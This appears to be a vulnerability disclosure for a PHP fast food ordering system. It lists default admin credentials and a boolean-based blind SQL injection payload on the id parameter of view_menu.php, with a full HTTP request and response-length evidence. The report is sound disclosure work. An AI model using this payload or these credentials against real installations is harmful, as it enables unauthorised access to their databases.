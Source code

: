 # Fast Food Ordering System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: /ffos/admin/menus/view_menu.php?id=

Vulnerability location: /ffos/admin/menus/view_menu.php?id=, id

Current database name: ffos_db,length is 7

[+] Payload: /ffos/admin/menus/view_menu.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /ffos/admin/menus/view_menu.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=rlr2a917ahfp4mc52mm9a7kvvm
Connection: close
```

When length (database ()) = 6, Content-Length: 1015
![image](https://user-images.githubusercontent.com/54017627/171351708-f7a4f264-810d-4c16-9a6d-60b7eb0fbc38.png)

![image](https://user-images.githubusercontent.com/54017627/171351602-2a149785-786e-4ba8-9077-b8e349cfeaa1.png)

When length (database ()) = 7, Content-Length: 950
![image](https://user-images.githubusercontent.com/54017627/171351645-5d9ab154-f09a-43a5-984c-0e28b0edbba6.png)

![image](https://user-images.githubusercontent.com/54017627/171351460-18bbba42-791d-4c5a-b24f-de71de9ffbf2.png)
